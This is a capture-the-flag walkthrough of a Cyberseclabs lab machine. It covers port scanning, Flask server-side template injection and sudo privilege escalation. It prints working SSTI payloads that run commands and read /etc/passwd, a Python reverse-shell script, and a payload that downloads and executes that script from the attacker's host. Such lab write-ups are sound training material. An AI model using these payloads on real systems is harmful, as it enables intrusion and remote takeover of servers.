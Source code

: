 In this walkthrough, we'll go over one of the machines from the challenge labs on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Casino IP](casinoIP.png)

Let's start the scanning process with nmap:
```bash
nmap -sTV -p- -n 172.31.3.7
```
We'll see that there are three ports open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-28 20:57 EDT
Nmap scan report for 172.31.3.7
Host is up (0.023s latency).

PORT     STATE    SERVICE    VERSION
22/tcp   open     ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:5c:51:eb:90:a2:79:74:42:3b:af:8b:64:66:2f:a2 (RSA)
|   256 d5:76:0c:92:ef:e1:83:9e:37:63:46:00:eb:9d:7b:05 (ECDSA)
|_  256 cd:4f:f8:48:9a:c7:38:85:a2:05:9c:3b:44:20:01:8c (ED25519)
80/tcp   open     http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: River - Index
9000/tcp filtered cslistener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.07 seconds

```
It looks like a casino platform is being served on port 80:

![Casino Index Page](casino-index-html.png)

While browsing, on the team page, we can see that one of the team members is a Flask developer:

![Casino Team Page](casino-teams.png)

After seeing this, I can check for a potential SSTI (Server Side Template Injection) vulnerability. I followed the process from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
Now, in the search box we can do the following tests:

1. ${7*7}

![Test1](casino-SSTI-test-1.png)

2. {{7*7}} 

![Test2](casino-SSTI-test-2.png)

3. {{7*'7'}} 

![Test3](casino-SSTI-test-3.png)

4. {{ self._TemplateReference\__context.cycler\.__init\__.\__globals\__.os.popen('id').read() }} 

![Test4](casino-SSTI-id.png)

5. {{ get_flashed_messages.\__globals\__.\__builtins\__.open("/etc/passwd").read() }} 

![Test5](casino-SSTI-passwd.png)

6. {{ self._TemplateReference\__context.namespace.\__init\__.\__globals\__.os.popen('ls /home').read() }} 

![Test6](casino-SSTI-ls.png)

7. {{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('which python3').read() }}

![Test7](casino-SSTI-python3.png)
    
From, our strategy could be creating a Python file with a reverse shell and upload it to the server, then run it within the same script. The Python file looks like this and we save it as ***revshell.txt***:
```python
#!/usr/bin/python3

import socket
import subprocess
import os
import pty

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("YourIPAddress", 5555)) # Don't forget to put your IP Address here.
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

Let's start a Python server to host this file with `sudo python3 -m http.server 80`
Now, by using the following script we can upload and run the Python file `{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('wget http://10.10.0.18/revshell.txt -O /tmp/revshell.py;python3 /tmp/revshell.py').read() }}`

![Casino Foothold](casino-SSTI-revshell.png)

In terms of the privilege escalation, I look at the sudo version and OS distribution:

![Casino OS/Sudo Version](casino-OS-release.png)

At this point, we can check if this machine is vulnerable to ***CVE-2021-3156 (Sudo Baron Samedit)*** vulnerability. We can use the following repo [Sudo Baron Samedit](https://github.com/worawit/CVE-2021-3156)
From this repo, we can use ***exploit_nss.py*** to see if we can get a root shell:

![Casino Root](casino-root.png)

And we successfully gain the root level privileges.
I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
